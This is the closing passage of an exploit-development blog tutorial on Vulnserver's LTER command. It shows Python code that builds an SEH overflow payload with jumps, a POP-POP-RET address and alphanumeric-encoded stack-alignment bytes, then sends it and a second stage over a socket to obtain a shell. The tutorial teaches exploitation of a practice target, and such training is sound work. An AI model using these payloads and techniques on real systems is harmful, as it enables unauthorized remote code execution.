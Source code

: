``` python
    LONG_JUMP +
    b'A' * (79 - 6 - len(LONG_JUMP)) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
    # This will trigger our stager
    fd.recv(1024)
    time.sleep(3)
    fd.sendall(STAGE2)
```

And check if we got a shell:

<div class="imgblock">

![Success](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331202/blog/vulnserver-lter-seh/success_vaz7jm.gif)

</div>

Wonderful\! It was easy, isn’t it? No, it was not, but we learned a
lot\!

You can download the final exploit [here](exploit.py).

## Conclusion

Dealing with bad chars when exploiting is very common. Generally,
encoders from known tools like `msfvemon` will help us to overcome those
restrictions, but there are some picky applications that will make us
drive the extra mile, but it’s worth it.

